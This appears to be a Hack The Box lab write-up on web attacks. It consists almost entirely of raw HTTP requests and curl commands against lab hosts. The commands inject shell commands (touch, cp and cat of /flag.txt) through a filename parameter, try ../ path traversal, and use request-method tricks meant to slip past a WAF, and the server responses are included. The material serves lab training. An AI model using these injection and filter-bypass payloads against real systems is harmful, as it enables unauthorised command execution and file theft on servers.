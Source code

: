 # HTB_Web_Attack
```
POST /index.php?filename=file1%3B%20touch%20file2%3B  HTTP/1.1
Host: 94.237.60.55:34082
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

filename=file%3B+touch+file2%3B


```



## HTTP request method exploitation and url filtering 


```
POST /index.php?filename=file%3B%20cp%20%2Fflag.txt%20.%2F%3B HTTP/1.1
Host: 94.237.60.55:34082
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```



 ## Attempted combined traversal


 ```

# Try GET with ../ (might work when POST doesn't)
curl -X GET "http://83.136.253.201:36762/index.php?filename=../../flag.txt"

# Use HEAD to check existence without triggering WAF
curl -I -X HEAD "http://83.136.253.201:36762/index.php?filename=../../flag.txt"
```
<body>
    <div class="form-group">
        <h1>File Manager</h1>
        <form role="form" action="index.php" method="GET">
            <input type="text" class="form-control" placeholder="New File Name" name="filename">
        </form>
        <form action="admin/reset.php" method="GET">
            <input type="submit" value="Reset" class="btn btn-danger" />
        </form>
    </div>
</body>
</body>

</html>

<div></div><ul class="list-unstyled" id="file"><div><h3>Available Files:<h3></div><ul><li><h4><a href='notes.txt'>notes.txt</a></h4></li></ul>Malicious Request Denied!</ul




### malicious payload

```
curl -X GET "http://83.136.253.201:36762/index.php?filename=;cat+/flag.txt"

```
<body>
    <div class="form-group">
        <h1>File Manager</h1>
        <form role="form" action="index.php" method="GET">
            <input type="text" class="form-control" placeholder="New File Name" name="filename">
        </form>
        <form action="admin/reset.php" method="GET">
            <input type="submit" value="Reset" class="btn btn-danger" />
        </form>
    </div>
</body>
</body>

</html>

<div></div><ul class="list-unstyled" id="file"><div><h3>Available Files:<h3></div><ul><li><h4><a href='notes.txt'>notes.txt</a></h4></li></ul>Malicious Request Denied!</ul


